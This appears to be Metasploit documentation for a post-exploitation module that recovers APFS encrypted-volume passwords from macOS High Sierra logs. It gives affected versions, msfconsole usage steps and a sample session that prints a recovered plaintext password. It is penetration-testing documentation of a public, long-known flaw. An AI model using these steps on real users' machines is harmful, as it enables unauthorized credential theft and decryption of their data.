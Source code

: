 ## Vulnerable Application

This module uses a vulnerability in macOS High Sierra's `log` command. It uses the logs of the Disk Utility app to recover the password of an APFS encrypted volume from when it was created. 

  * macOS 10.13.0
  * macOS 10.13.1
  * macOS 10.13.2
  * macOS 10.13.3*


  \* On macOS 10.13.3, the password can only be recovered if the drive was encrypted before the system upgrade to 10.13.3. See [here](https://www.mac4n6.com/blog/2018/3/21/uh-oh-unified-logs-in-high-sierra-1013-show-plaintext-password-for-apfs-encrypted-external-volumes-via-disk-utilityapp) for more info

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use post/osx/gather/apfs_encrypted_volume_passwd`
  3. Do: set the `MOUNT_PATH` option if needed
  4. Do: ```run```
  5. You should get the password

## Options

### MOUNT_PATH

  `MOUNT_PATH` is the path on the macOS system where the encrypted drive is (or was) mounted. This is *not* the path under `/Volumes`

## Scenarios

  Typical run against an OSX session, after creating a new APFS disk using Disk Utility:

```
msf exploit(multi/handler) > use post/osx/gather/apfs_encrypted_volume_passwd
msf post(osx/gather/apfs_encrypted_volume_passwd) > set SESSION -1
SESSION => -1
msf post(osx/gather/apfs_encrypted_volume_passwd) > exploit

[+] APFS command found: newfs_apfs -i -E -S aa -v Untitled disk2s2 .
[+] APFS command found: newfs_apfs -A -e -E -S secretpassword -v Untitled disk2 .
[*] Post module execution completed
msf post(osx/gather/apfs_encrypted_volume_passwd) >
```
